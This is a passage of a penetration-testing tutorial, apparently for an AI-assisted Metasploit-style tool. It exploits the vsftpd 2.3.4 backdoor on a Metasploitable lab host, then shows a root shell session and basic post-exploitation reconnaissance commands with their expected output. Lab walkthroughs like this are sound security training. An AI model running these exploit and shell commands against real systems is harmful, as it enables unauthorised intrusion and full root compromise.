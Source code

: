 ### Step 6: Safe Exploitation

Let's perform controlled exploitation:

```bash
# Use AI-recommended exploit
msf-ai> ai exploit --target 192.168.56.101 --exploit vsftpd_234_backdoor

# Alternatively, manual exploitation:
msf-ai> exploit vsftpd_234_backdoor --target 192.168.56.101 --payload cmd/unix/interact
```

**What's happening:**
- Executes the exploit against the target service
- Establishes a session if successful
- Provides command shell access

**Expected results:**
```
[+] Exploit successful!
[+] Session 1 created (192.168.56.101:6200 -> 192.168.56.1:35847)
[+] Command shell session opened
```

### Step 7: Post-Exploitation

Let's gather information from our compromised system:

```bash
# List active sessions
msf-ai> sessions list

# Interact with the session
msf-ai> sessions interact 1

# Basic system reconnaissance
id
uname -a
ps aux
ls /home
```

**What's happening:**
- We now have shell access to the target system
- Can gather system information and user data
- Explore the file system and running processes

**Expected results:**
```
uid=0(root) gid=0(root) groups=0(root)
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux

User directories found:
/home/msfadmin
/home/user
```
